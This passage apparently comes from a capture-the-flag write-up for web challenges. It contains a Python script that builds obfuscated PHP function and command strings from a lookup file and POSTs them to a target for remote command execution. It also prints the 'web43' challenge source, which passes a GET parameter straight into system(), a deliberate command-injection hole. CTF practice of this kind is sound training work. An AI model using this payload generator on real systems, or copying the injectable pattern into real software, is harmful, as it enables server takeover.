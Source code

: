 ```python
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))
   data={
       'c':urllib.parse.unquote(param)
       }
   r=requests.post(url,data=data)
   print("\n[*] result:\n"+r.text)

```

### web43

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 20:51:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    system($c." >/dev/null 2>&1");
}else{
    highlight_file(__FILE__);
}
```
